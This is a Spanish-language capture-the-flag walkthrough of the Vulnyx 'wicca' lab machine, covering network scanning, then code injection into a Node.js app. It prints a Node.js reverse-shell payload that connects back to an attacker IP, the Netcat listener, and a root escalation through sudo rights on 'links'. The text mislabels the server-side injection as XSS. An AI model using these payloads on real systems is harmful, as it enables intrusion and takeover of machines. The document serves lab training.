 # Vulnyx-wicca

### Identificación de la IP en la red

```bash
# ARP scan
arp-scan -I eth0 --localnet
•(IP-victima)  08:00:27:fd:2a:fe       PCS Systemtechnik GmbH
```

### Escaneo de Puertos

```bash
# Nmap scan
nmap -p 22,80,5000 -sS -sC -sV  -n -Pn (IP-victima) -oN nmap
•22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2 (protocol 2.0)
•80/tcp   open  http    Apache httpd 2.4.57 ((Debian))
•5000/tcp open  http    Node.js (Express middleware)
```

Dentro del puerto 5000 encontramos un panel con un input de búsqueda vulnerable a XSS, pero al ejecutar una reverseshell mediante XSS, no podemos inyectar comandos. Investigaremos esta intrusión más tarde.

Otra manera de verificar la vulnerabilidad es modificar ciertos parámetros en la URL. En este caso, la URL genera un token en números "/?name=(input)&token=23123334". Si modificamos el token por otros números, no sucede nada, pero al cambiarlo por letras, la web parece romperse.

Al ver la vulnerabilidad en la web, procedemos a buscar en Google una forma de crear una reverseshell en React. Encontramos lo siguiente:

```javascript
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(443, "(IP-atacante)", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})();
```
Fuente (https://medium.com/dont-code-me-on-that/bunch-of-shells-nodejs-cdd6eb740f73)

Nos ponemos en escucha con Netcat:

```bash
nc -nlvp 443
```

Ya estamos dentro:

```bash
whoami
•aleister
```

Ahora hacemos el tratamiento de la TTY:

```bash
script /dev/null -c bash
control+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Ahora toca escalar privilegios hasta llegar a root:

```bash
sudo -l
•(root) NOPASSWD: /usr/bin/links
```

Vemos que tenemos "links" con ejecución como root.

Ejecutamos "/links" como root:

```bash
sudo /usr/bin/links 
```

Se abre una ventana donde podemos ejecutar algunos comandos. Al presionar "escape" vemos que se abre una barra tipo menú y en "files" encontramos una opción para generar una bash.

```bash
file
OS shell
```

Y ya tenemos una shell como root :D
